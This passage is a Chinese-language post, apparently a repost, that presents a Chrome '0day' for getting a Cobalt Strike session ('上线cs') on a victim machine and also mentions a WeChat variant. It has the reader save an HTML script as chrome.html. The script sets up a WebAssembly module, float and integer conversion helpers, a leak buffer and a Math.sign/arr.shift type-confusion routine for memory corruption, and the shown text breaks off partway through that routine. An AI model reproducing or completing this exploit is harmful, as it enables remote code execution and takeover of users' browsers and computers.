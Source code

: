 # chrome(最新版可用) 0day上线cs & wx 0day上线
**本文章由兄弟团队凌晨安全的一灯师傅搜集整理**  
 

一、 chrome(最新版可用) 0day上线cs

参考：https://mp.weixin.qq.com/s/LOpAu8vs8ob85W3sCmXMew

1、使用以下脚本，保存为chrome.html格式

    <script>
         function gc() {
           for (var i = 0; i < 0x80000; ++i) {
               var a = new ArrayBuffer();
          }
      }
       let shellcode = [];
       var wasmCode = new Uint8Array([0, 97, 115, 109, 1, 0, 0, 0, 1, 133, 128, 128, 128, 0, 1, 96, 0, 1, 127, 3, 130, 128, 128, 128, 0, 1, 0, 4, 132, 128, 128, 128, 0, 1, 112, 0, 0, 5, 131, 128, 128, 128, 0, 1, 0, 1, 6, 129, 128, 128, 128, 0, 0, 7, 145, 128, 128, 128, 0, 2, 6, 109, 101, 109, 111, 114, 121, 2, 0, 4, 109, 97, 105, 110, 0, 0, 10, 138, 128, 128, 128, 0, 1, 132, 128, 128, 128, 0, 0, 65, 42, 11]);
       var wasmModule = new WebAssembly.Module(wasmCode);
       var wasmInstance = new WebAssembly.Instance(wasmModule);
       var main = wasmInstance.exports.main;
       var bf = new ArrayBuffer(8);
       var bfView = new DataView(bf);
       function fLow(f) {
           bfView.setFloat64(0, f, true);
           return (bfView.getUint32(0, true));
      }
       function fHi(f) {
           bfView.setFloat64(0, f, true);
           return (bfView.getUint32(4, true))
      }
       function i2f(low, hi) {
           bfView.setUint32(0, low, true);
           bfView.setUint32(4, hi, true);
           return bfView.getFloat64(0, true);
      }
       function f2big(f) {
           bfView.setFloat64(0, f, true);
           return bfView.getBigUint64(0, true);
      }
       function big2f(b) {
           bfView.setBigUint64(0, b, true);
           return bfView.getFloat64(0, true);
      }
       class LeakArrayBuffer extends ArrayBuffer {
           constructor(size) {
               super(size);
               this.slot = 0xb33f;
          }
      }
       function foo(a) {
           let x = -1;
           if (a) x = 0xFFFFFFFF;
           var arr = new Array(Math.sign(0 - Math.max(0, x, -1)));
           arr.shift();
           let local_arr = Array(2);
           local_arr[0] = 5.1;//4014666666666666
           let buff = new LeakArrayBuffer(0x1000);//byteLength idx=8
           arr[0] = 0x1122;
           return [arr, local_arr, buff];